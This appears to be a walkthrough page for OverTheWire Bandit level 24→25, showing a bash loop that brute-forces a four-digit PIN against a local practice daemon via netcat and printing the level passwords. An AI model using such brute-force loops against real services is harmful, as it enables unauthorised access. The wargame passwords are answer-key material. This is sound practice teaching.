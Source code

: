```yaml
---
layout: default
title: Level 24 → Level 25
order: 25
---
```


# Level 24 → Level 25
After logging in with 

`ssh bandit24@bandit.labs.overthewire.org -p 2220`

Password: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

the game tells us that a daemon is listening on port 30002 that will print back the password for bandit25 if given the password for bandit 24 followed by a 4 digit pin-code (that we will have to bruteforce). 

Let's look at the script the daemon is running by connecting via netcat like we did in [Level 14 → Level 15]({{ site.baseurl }}/bandit/level-14_to_level-15):

`nc localhost 30002`

This will return the script's description:

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```

This means that we need to write a script that sends the password for bandit24 and the secret pincode (a number between 0000 and 9999), separated by a space. To do this, let's move into a temporary directory `cd /tmp` first, then `mktemp -d` and `cd /tmp.9dtiJmbqOqand` (where 9dtiJmbqOq is the name of your temporary directory). Then create a `bruteforce.sh` file with `touch bruteforce.sh` and edit it with `nano bruteforce.sh`. 

Let's write our script:

```
#!/bin/bash

for i in {0000..9999}
do
    echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> tries.txt
done

cat tries.txt | nc localhost 30002 > res.txt
```

---
**NOTE**

Remember to put your password for bandit24 as it will change.

---

This will print all combinations inside `tries.txt`, then write all outcomes in `res.txt`. Let's give this file esecuting permissions with `chmod +x bruteforce.sh`, then run it.

By running `ls` we instantly see that the `tries.txt` and `res.txt` have been created.

By using `cat res.txt` we can see that all failed attempts return the same message: 

```
Wrong! Please enter the correct current password and pincode. Try again.
```

This means that we can get the password by using sort, just like we did in [Level 8 → Level 9]({{ site.baseurl }}/bandit/level-8_to_level-9) and grep, like we did in [Level 7 → Level 8]({{ site.baseurl }}/bandit/level-7_to_level-8) to filter out lines that contain a certain word:

```
sort res.txt | grep -v "again"
```

or we could also use uniq -u, as we did, again, in [Level 7 → Level 8]({{ site.baseurl }}/bandit/level-7_to_level-8)

```
uniq -u res.txt
```

`sort` will return:

```
Correct!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

while uniq -u will return:

```
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

in both cases the password for our next level will be:

> `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`
